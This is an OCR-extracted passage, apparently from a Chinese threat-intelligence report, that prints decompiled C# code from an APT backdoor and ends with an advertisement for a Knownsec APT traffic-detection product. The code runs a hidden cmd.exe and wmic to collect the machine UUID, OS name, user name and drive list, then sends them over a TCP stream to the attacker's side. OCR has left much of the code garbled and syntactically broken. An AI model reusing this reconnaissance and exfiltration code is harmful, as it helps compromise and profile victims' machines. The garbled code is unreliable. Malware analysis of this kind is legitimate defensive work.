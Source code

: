 new StringBuilderO;  

![](https://cdn-mineru.openxlab.org.cn/extract/38c13b7c-922b-4263-a821-33e5cb528b80/32064dbcc37ea182b7244e8bed1921f99de1158dfa1c59bf1fc0f6aa49a6b752.jpg)  

事件委托  

# Program.wt = new BinaryWriter(Program.tctt.GetStreamO) ; Program. rt = new BinaryReader (Program. tctt. GetStream O) ;  

创建TcpStream 读写接口  

p. Start Info. WindowStyle = ProcessWindowStyle. Hidden;   
p. StartInfo. UseShellExecute = false;   
p. StartInfo. RedirectStandardOutput = true;   
p. StartInfo.FileName = "cmd. exe";   
p. Start Info.Arguments = "/c wmic path win32_computersystemproduct get uuid";   
p. Start O;   
sdaf = "";   
string text = (from x in Enumerable. Range(0, 3) select sdaf = p. StandardOutput. ReadLine O). ToArray<string>O [2]. ToString O ;   
object obj = (from ManagementObject x in new ManagementObjectSearcher("SELECT Caption FROM Win32_OperatingSystem"). Get O) select x. GetPropertyValue ("Caption")). FirstOrDefaul t<object>O) ;   
Program. sendData(string. Concat (new string[] text, ”\*”， WindowsIdentity. GetCurrent O. Name, (obj != null) ? obj. ToStringO : null, "\*1. 0"   
if (!(@string == "drive")) continue;   
string text3 =   
foreach (DriveInfo driveInfo in DriveInfo.GetDrives O) text3 = text3 + "\*" + driveInfo.Name. ToStringO ;   
Program. sendData (text3. Remove (0, 1)) ;   
continue;  

![](https://cdn-mineru.openxlab.org.cn/extract/38c13b7c-922b-4263-a821-33e5cb528b80/645d6679fa6a64dad3d2735c170af37b9eb786b20b8d8af3e34ecfaf2dad17a6.jpg)  

![](https://cdn-mineru.openxlab.org.cn/extract/38c13b7c-922b-4263-a821-33e5cb528b80/a41b33b4b55bdccedfbac4a2d1e76e68e180217934384ce170d6f4a3d3c20a16.jpg)  

![](https://cdn-mineru.openxlab.org.cn/extract/38c13b7c-922b-4263-a821-33e5cb528b80/8dc7b8873f26b986d7b0b6b215d7691f63dd80b2db71169659ae66db458b4fac.jpg)  

![](https://cdn-mineru.openxlab.org.cn/extract/38c13b7c-922b-4263-a821-33e5cb528b80/eda5a8cda10917d18b7f25a328c64739b475dd63d9018a70fd6662da3a26b433.jpg)  

![](https://cdn-mineru.openxlab.org.cn/extract/38c13b7c-922b-4263-a821-33e5cb528b80/cdcadc30069e8aa15c35d3f96a0323b2e605138dca7ec06610ecc1a3e8c0f7f4.jpg)  

![](https://cdn-mineru.openxlab.org.cn/extract/38c13b7c-922b-4263-a821-33e5cb528b80/942b82e23272e5ab3992a99e79f07dd0237ca7da9696cac9fc49c2568818a715.jpg)  

![](https://cdn-mineru.openxlab.org.cn/extract/38c13b7c-922b-4263-a821-33e5cb528b80/cd4984d2691c6e1447374917026d7b30a30613327cda7571210338e8796f300c.jpg)  

## 115 创宇猎幽APT流量监测系统(NDR)  

创宇猎幽是针对活跃 APT 组织的流量检测分析工具，通过实时、回放分析网络流量，涵盖知道创宇漏洞能力的规则，结合ZoomEye多年测绘情报数据，辅以异常网络行为模型分析技术，深度检测所有可疑活动，识别出未知威胁，将流量中的APT攻击一网打尽，并及时进行报警通知。  

创宇猎幽的全流量存储功能，配合知道创宇404高级威胁情报团队的专业服务，可以对APT攻击及相关联的APT组织进行更深入的溯源和跟踪分析，协助政府企业客户建立针对APT攻击的完善防御体系。  